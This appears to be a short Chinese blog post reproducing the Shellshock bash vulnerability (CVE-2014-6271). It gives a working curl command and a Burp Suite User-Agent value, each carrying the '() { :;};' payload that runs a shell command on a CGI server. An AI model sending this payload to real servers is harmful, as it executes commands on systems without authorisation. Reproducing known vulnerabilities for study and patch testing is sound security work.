 ```yaml
---
title: 破壳漏洞（CVE-2014-6271）
tags: 漏洞复现
categories: 技术分享
abbrlink: 7dc46b66
date: 2019-10-14 22:01:22
updated: 2019-10-14 22:01:22
---
```


linux下可以直接使用curl进行复现，命令如下 

```
curl -A ' () { :;};echo ;  echo $(/bin/ls /);' 'http://www.*****.com/cgi-bin/poc.cgi' 
```

![](https://i.loli.net/2019/10/28/cJipDq98KvAQ7LP.png)

Windows下可使用Burp Suite

将User-Agent改为() { :;};echo ;  echo $(/bin/ls /);

![](https://i.loli.net/2019/10/28/4y8TzkoZWEH3Pe6.png)


